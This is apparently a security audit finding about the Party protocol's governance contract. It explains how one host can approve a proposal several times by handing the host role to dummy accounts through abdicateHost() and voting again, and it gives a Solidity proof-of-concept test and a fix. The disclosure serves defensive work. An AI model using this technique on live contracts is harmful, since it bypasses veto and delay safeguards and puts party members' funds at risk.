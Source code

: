 # A single host can approve a proposal for all other hosts in the Party

## Summary

A single host can approve a proposal by transferring the host role to dummy accounts and voting again to increment the number of approvals.

## Impact

When a proposal is created in a Party, the number of active hosts is snapshotted in the proposal state values (`numHosts`). This structure also contains a counter with the number of hosts that have accepted the proposal (`numHostsAccepted`).

https://github.com/code-423n4/2023-10-party/blob/0ce3819de173f7688c9c834ce2cc758dd03c9bd2/contracts/party/PartyGovernance.sol#L553-L573

```solidity
553:     function propose(
554:         Proposal memory proposal,
555:         uint256 latestSnapIndex
556:     ) external returns (uint256 proposalId) {
557:         _assertActiveMember();
558:         proposalId = ++lastProposalId;
559:         // Store the time the proposal was created and the proposal hash.
560:         (
561:             _proposalStateByProposalId[proposalId].values,
562:             _proposalStateByProposalId[proposalId].hash
563:         ) = (
564:             ProposalStateValues({
565:                 proposedTime: uint40(block.timestamp),
566:                 passedTime: 0,
567:                 executedTime: 0,
568:                 completedTime: 0,
569:                 votes: 0,
570:                 totalVotingPower: _getSharedProposalStorage().governanceValues.totalVotingPower,
571:                 numHosts: numHosts,
572:                 numHostsAccepted: 0
573:             }),
```

Each time a host votes for a proposal using `accept()`, this counter is incremented to reflect the state in the proposal values:

https://github.com/code-423n4/2023-10-party/blob/0ce3819de173f7688c9c834ce2cc758dd03c9bd2/contracts/party/PartyGovernance.sol#L636-L638

```solidity
636:         if (isHost[msg.sender]) {
637:             ++values.numHostsAccepted;
638:         }
```

The implementation simply checks if the caller account is a current host. A malicious host can transfer the _host_ feature into another account of his own using `abdicateHost()` and vote again for the proposal, effectively incrementing this counter again.

Any host can repeat this process to account for all the votes of the other hosts. Doing so will enable the `PROPOSAL_FLAG_HOSTS_ACCEPT` flag in the proposal, and transition the proposal status into the `Ready` state, skipping the execution delay and the veto period, and making it ready to be executed.

## Proof of Concept

In the following test, a Party is created with 3 different host accounts. After simulating a passing proposal, the `host1` account votes 3 times by transferring the host role to other dummy accounts using `abdicateHost()`, making the proposal to be in a `Ready` state.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/8a9b8300a136cd3aed4478b374eee9db).

```solidity
function test_Party_SingleHostApprovesProposal() public {
    // The party has 3 different hosts
    address host1 = makeAddr("host1");
    address host2 = makeAddr("host2");
    address host3 = makeAddr("host3");

    address[] memory hosts = new address[](3);
    hosts[0] = host1;
    hosts[1] = host2;
    hosts[2] = host3;

    IERC721[] memory preciousTokens;
    uint256[] memory preciousTokenIds;

    address[] memory authorities = new address[](1);
    authorities[0] = address(partyAdmin);

    ProposalStorage.ProposalEngineOpts memory proposalEngineOpts;

    Party party = partyFactory.createParty(
        partyImpl,
        authorities,
        Party.PartyOptions({
            governance: PartyGovernance.GovernanceOpts({
                hosts: hosts,
                voteDuration: 99,
                executionDelay: 300,
                passThresholdBps: 5100,
                totalVotingPower: 100,
                feeRecipient: payable(0),
                feeBps: 0
            }),
            proposalEngine: proposalEngineOpts,
            name: "Dope party",
            symbol: "DOPE",
            customizationPresetId: 0
        }),
        preciousTokens,
        preciousTokenIds,
        0
    );

    // Give some voting power to jhon to make proposal and have it passed
    partyAdmin.mintGovNft(party, address(john), 51, address(john));

    skip(1);

    john.makeProposal(
        party,
        PartyGovernance.Proposal({
            maxExecutableTime: uint40(type(uint40).max),
            cancelDelay: uint40(1 days),
            proposalData: abi.encode(0)
        }),
        0
    );
    uint256 proposalId = 1;

    // Host1 will accept the proposal, and transfer it to the next dummy host...
    vm.startPrank(host1);

    // host votes for proposal
    party.accept(proposalId, 0);

    // host creates dummy accounts
    address hostDummy1 = makeAddr("hostDummy1");
    address hostDummy2 = makeAddr("hostDummy2");

    // host transfers to first dummy account
    party.abdicateHost(hostDummy1);

    vm.stopPrank();

    // Host1 accepts with first dummy and transfer it to the next dummy host...
    vm.startPrank(hostDummy1);

    // host votes again for proposal
    party.accept(proposalId, 0);

    // host transfers to second dummy account
    party.abdicateHost(hostDummy2);

    vm.stopPrank();

    // Host1 votes again for proposal
    vm.prank(hostDummy2);
    party.accept(proposalId, 0);

    // Proposal is ready
    (PartyGovernance.ProposalStatus status,) = party.getProposalStateInfo(proposalId);
    assertTrue(status == PartyGovernance.ProposalStatus.Ready);
}
```

## Recommendation

Similar to voting power, the implementation of PartyGovernance should snapshot the current hosts at the time the proposal is created, or track when a host abdicates and transfers the role to another account. This would allow to check who had a host role at the moment the proposal was created, and avoid duplicate host votes.
